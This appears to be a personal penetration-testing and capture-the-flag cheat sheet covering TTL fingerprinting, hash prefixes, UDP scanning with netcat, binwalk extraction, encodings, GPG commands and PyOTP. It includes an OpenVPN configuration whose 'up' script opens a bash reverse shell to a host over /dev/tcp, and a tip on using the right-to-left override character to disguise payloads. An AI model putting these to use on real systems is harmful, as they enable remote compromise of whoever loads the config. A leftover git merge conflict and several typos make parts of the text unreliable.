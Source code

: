 # MISC

In a ping response TTL:\
127 = Windows\
254 = Cisco\
Lo demás,algunlinux

$1$- md5\
$2$or $2a$ - Blowfish\
$5$- sha256\
$6$- sha512

If you do not know what is behind a service, try to make and HTTP GET request.

**UDP Scans**\
nc -nv -u -z -w 1 \<IP> 160-16

An empty UDP packet is sent to a specific port. If the UDP port is open, no reply is sent back from the target machine. If the UDP port is closed, an ICMP port unreachable packet should be sent back from the target machine.\\

UDP port scanning is often unreliable, as firewalls and routers may drop ICMP\
<<<<<<< HEAD
&#x20;packets. This can lead to false positives in your scan, and you will regularly see\
&#x20;UDP port scans showing all UDP ports open on a scanned machine.\
&#x20;o Most port scanners do not scan all available ports, and usually have a preset list\
&#x20;of “interesting ports” that are scanned.
=======
packets. This can lead to false positives in your scan, and you will regularly see\
UDP port scans showing all UDP ports open on a scanned machine.\
o Most port scanners do not scan all available ports, and usually have a preset list\
of “interesting ports” that are scanned.
>>>>>>> master

## CTF - Tricks

In **Windows** use **Winzip** to search for files.\
**Alternate data Streams**: _dir /r | find ":$DATA"_\\

```
binwalk --dd=".*" <file> #Extract everything
binwalk -M -e -d=10000 suspicious.pdf #Extract, look inside extracted files and continue extracing (depth of 10000)
```

### Crypto

**featherduster**\\

**Basae64**(6—>8) —> 0...9, a...z, A…Z,+,/\
**Base32**(5 —>8) —> A…Z, 2…7\
**Base85** (Ascii85, 7—>8) —> 0...9, a...z, A...Z, ., -, :, +, =, ^, !, /, \*, ?, &, <, >, (, ), \[, ], {, }, @, %, $, #\
**Uuencode** --> Start with "_begin \<mode> \<filename>_" and weird chars\
**Xxencoding** --> Start with "_begin \<mode> \<filename>_" and B64\
\
**Vigenere** (frequency analysis) —> [https://www.guballa.de/vigenere-solver](https://www.guballa.de/vigenere-solver)\
**Scytale** (offset of characters) —> [https://www.dcode.fr/scytale-cipher](https://www.dcode.fr/scytale-cipher)

**25x25 = QR**

factordb.com\
rsatool

Snow --> Hide messages using spaces and tabs

## Characters

%E2%80%AE => RTL Character (writes payloads backwards)



## Openvpn Configuration to Shell

```bash
remote 192.168.122.1
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9000<&1 2>&1&'"
```

## GPG keys&#x20;

Dump informations about the key:

```
gpg -d file.gpg
```

List keys owned by the user

```
gpg --list-keys
```

### PYOTP

Building a Python Script to generate TOTP for MFA (the NTPDate failed because i didn't use -q. Nmap would have worked with -sV)

{% embed url="https://github.com/pyauth/pyotp" %}
PyOTP is a Python library for generating and verifying one-time passwords. It can be used to implement two-factor (2FA) or multi-factor (MFA) authentication methods in web applications and in other systems that require users to log in.
{% endembed %}

